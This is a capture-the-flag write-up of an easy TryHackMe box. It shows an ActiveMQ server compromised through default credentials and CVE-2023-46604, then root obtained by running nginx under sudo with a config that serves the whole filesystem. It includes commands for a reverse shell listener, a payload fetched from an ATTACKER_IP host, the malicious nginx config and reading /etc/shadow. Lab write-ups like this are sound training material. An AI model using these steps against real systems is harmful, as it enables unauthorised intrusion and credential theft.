








This box is rated easy difficulty on THM. It involves us guessing default credentials on a webserver to disclose what version of ActiveMQ is running. Looking for known vulnerabilities on that AMQP service reveals that it's prone to unauthenticated RCE which we use to grab a shell. Finally, we abuse Sudo privileges on the nginx binary to configure a new server hosting files from the root directory.

## Scanning & Enumeration
I begin with an Nmap scan against the given IP to find all running services on the host; Repeating the same for UDP yields no results.

```
$ sudo nmap -p- -sCV 10.129.230.87 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-17 20:46 CST
Nmap scan report for 10.129.230.87
Host is up (0.056s latency).

PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open   http       nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
1883/tcp  open   mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/MasterBroker: 
|_    ActiveMQ/Advisory/Consumer/Topic/#: 
5672/tcp  open   amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open   http       Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
|_http-server-header: Jetty(9.4.39.v20210325)
35369/tcp open   tcpwrapped
61613/tcp open   stomp      Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open   http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title.
61616/tcp open   apachemq   ActiveMQ OpenWire transport 5.15.15
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.20 seconds
```

There are nine ports open:
- SSH on port 22
- An nginx server on port 80 and a few other Jetty servers on 8161 & 61614
- The rest all pertain to the Advanced Message Queuing Protocol (AQMP), which acts as an application-level messaging middleware. 

The landing page on port 80 prompts a sign in for the website. Supplying `admin:admin` while testing for default credentials grants a successful login.



Now that we're able to authenticate, I run a few Gobuster scans to discover subdirectories/subdomains in the background. 

```
$ gobuster dir -u http://10.129.230.87/ -w /opt/SecLists/directory-list-2.3-medium.txt -U admin -P admin
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.230.87/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Auth User:               admin
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 302) [Size: 0] [--> http://10.129.230.87/images/]
/admin                (Status: 302) [Size: 0] [--> http://10.129.230.87/admin/]
/api                  (Status: 302) [Size: 0] [--> http://10.129.230.87/api/]
/styles               (Status: 302) [Size: 0] [--> http://10.129.230.87/styles/]
```

Heading over to the `/admin` page discloses the version of Apache ActiveMQ that is running on the system. I find it a bit strange that this is running on an nginx server but I digress.



Navigating to `/api/` shows a subdirectory for web info that we can fuzz as well, although this ultimately doesn't reveal anything.



## RCE via ActiveMQ
Since we know what version of ActiveMQ is running, I do some research in order to find any vulnerabilities for it. This reveals [CVE-2023–46604](https://nvd.nist.gov/vuln/detail/cve-2023-46604) which explains that attackers can use the Java OpenWire protocol marshaller to run arbitrary shell commands by manipulating serialized class types. This causes either the client or the broker to instantiate any class on the classpath which can lead to critical RCE on affected systems.

In our case, it's possible to host a malicious XML file using the Spring framework's `java.lang.ProcessBuilder`, allowing us to execute arbitrary commands. [This article](https://attackerkb.com/topics/IHsgZDE3tS/cve-2023-46604/rapid7-analysis?referrer=etrblog) was a great read to understand how this vulnerability can be exploited.

### Reverse Shell
A bit more digging led me to [this PoC](https://github.com/rootsecdev/CVE-2023-46604) containing a script written in GO along with a pre-made XML payload for a reverse shell. I setup a listener on my local machine and as well as an HTTP server so that the system can grab out XML doc.

```
#Python HTTP server hosting XML doc
python3 -m http.server 8081

#Reverse shell listener
nc -lvnp 9001

#Running GO exploit script to grab reverse shell
go run main.go -i MACHINE_IP -p 61616 -u http://ATTACKER_IP:8081/poc-linux.xml
```



We get a successful shell on the box as the ActiveMQ user and can grab the user flag under their home directory.



## Privilege Escalation
Next, I start internal enumeration to escalate privileges to root. Checking the usual routes like SUID bits on binaries, loose security on backups, and cronjobs running scripts reveals nothing crazy. Our account does have access to run the nginx special binary for the web server on port 80.



### Malicious Web Server
Because we can we can outright run the binary as root user and not just commands within it, we're able to specify our own malicious nginx config file that forces the server to host files from the systems root. [This document page](https://docs.nginx.com/) has examples for quick server configs, I end up just using:

```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}
```

Now let's start the server with Sudo and specify the config file to point towards our malicious one using the `-c` flag.

```
sudo /usr/sbin/nginx -c /tmp/nginx.conf
```

Finally, we can use the cURL tool to grab files off of the newly created server. For an actual shell, we can read `/etc/shadow` and try to crack root password (this doesn't return anything).



Using the same method to grab the root flag completes this box.



That's all y'all, this box was fairly easy and showed how outdated software versions can lead to a full system takeover. Keep your systems up to patch and set stronger passwords for mitigation. I hope this was helpful to anyone following along or stuck and happy hacking!
